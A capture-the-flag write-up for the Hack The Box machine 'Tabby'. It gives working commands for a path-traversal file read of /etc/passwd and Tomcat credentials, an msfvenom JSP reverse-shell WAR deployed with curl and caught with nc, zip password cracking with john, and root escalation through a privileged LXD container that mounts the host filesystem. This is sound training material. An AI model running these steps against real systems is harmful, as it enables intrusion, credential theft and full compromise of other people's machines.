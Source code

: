 ```yaml
---
image: /assets/avatars/tabby.png
author: Valerio Casalino
title: Tabby Writeup
style: fill
tags: [Writeups, Hackthebox]
description: Writeup for Tabby (Hackthebox)
---
```


# Tabby

As always let's start with an `nmap` to get open ports.

![image-20201022115235445]({{ site.url }}/assets/tabby/image-20201022115235445.png)

And we got this result:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux;protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point, before starting any automated enumeration, we should take a look at the websites on port 80 and on port 8080.

![image-20201022115744210]({{ site.url }}/assets/tabby/image-20201022115744210.png)

On port 80 we can immediately see an email, which gives us a domain name. It is not really important for this machine, but a good practice in cases like this is to check for virtual hosts by adding the domain to the hosts file:

```bash
echo "\n10.10.10.194\t\tmegahosting.htb www.megahosting.htb\n" | sudo tee -a /etc/hosts
```

So, after this edit, we can connect to megahosting.htb and start looking around, until we find a curious way to include content in the news page:

```
http://megahosting.htb/news.php?file=statement
```

We can modify the request with `burp`, but seems a little overkill for this task, so we can try to trigger a directory traversal with a simple `curl` first (assuming the website is placed in `/var/www/../something`):

```bash
curl "http://www.megahosting.htb/news.php?file=../../../../etc/passwd"
```

![image-20201022131328944]({{ site.url }}/assets/tabby/image-20201022131328944.png)

We discovered the user `ash`, but, more importantly, that this location is vulnerable to a bad file inclusion that we can exploit later.

To take advantage of this vulnerability, we have to check port 8080.

![image-20201022131529012]({{ site.url }}/assets/tabby/image-20201022131529012.png)

Which gives us the initial page of tomcat and the CATALINA_HOME, in which a file named `tomcat-users.xml` contains the credentials for tomcat. The info can be retrieved with a simple Google search, [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory) is the link to the article I found.

If we trigger the file inclusion on port 80 to get that file we have:

![image-20201022131953473]({{ site.url }}/assets/tabby/image-20201022131953473.png)

So we got tomcat's credentials: `tomcat:$3cureP4s5w0rd123!`.

After a little research on how to upload a `.war` file ([WAR (file format)](https://en.wikipedia.org/wiki/WAR_(file_format))), I found [this answer](https://stackoverflow.com/a/52386613) on StackOverflow, and I did made exactly that.

```bash
# First, create the war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -f war > shell.war
# Then upload it using tomcat's creds
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/lolz&update=true'
# Get ready for the reverse shell
nc -lvvp 9001
```

Now, if we go to `http://megahosting.htb:8080/lolz`, we'll trigger the reverse shell!

![image-20201022133127965]({{ site.url }}/assets/tabby/image-20201022133127965.png)

At this point, with some enumeration, we can find a backup file:

![image-20201022133555734]({{ site.url }}/assets/tabby/image-20201022133555734.png)

(I just used `find` to find all the files in the system that I could read, but that were owned by `ash`)

Let's get this backup.

```bash
wget "http://www.megahosting.htb/news.php?file=../../../../var/www/html/files/16162020_backup.zip" -O backup.zip
```

The zip file is password protected, so we'll use `john` to find it.

![image-20201022134232933]({{ site.url }}/assets/tabby/image-20201022134232933.png)

At this point, the only thing left to do is let `john` do its magic:

```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt for_john.txt
```

Then we get the password of the archive, which is the same as `ash`'s account, so we obtained user's credentials: `ash:admin@it`.

So, we can switch user into the box:

![image-20201022191319438]({{ site.url }}/assets/tabby/image-20201022191319438.png)

For my comfort I'll suggest to [put a pubkey](https://www.ssh.com/ssh/keygen/) into `ash`'s `~/.ssh/authorized_hosts`, or [upgrade your shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but everything will work anyway. Go in the home directory and get the flag.

Running `id`, we discovered that the user is in the `lxd`  group, so he's able to create containers and running them as `root`. If we mount the root partition inside the container we can basically be root in the box. Documentation of LXD [here](https://linuxcontainers.org/lxd/docs/master/). 

First, you have to get a container image from the [web repository](https://images.linuxcontainers.org/images/) and transfer it to the box:

```bash
# Locally
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
mv alpine-* alpine.tar.gz
python3 -m http.server
# On Tabby
a=$(mktemp -d)
cd $a
wget "http://10.10.14.51:8000/alpine.tar.gz"
lxc image import ./alpine.tar.gz --alias lolz-image
```

To run the privilege escalation you have to:

```bash
# Initialize the container and make it accessible as root
lxc init lolz-image lolz -c security.privileged=true
# Mount the root partition (/) where you want
lxc config device add lolz lolz-image disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start lolz
# Get a shell inside of it
lxc exec lolz /bin/sh
```

... profit.

![image-20201022194855232]({{ site.url }}/assets/tabby/image-20201022194855232.png)
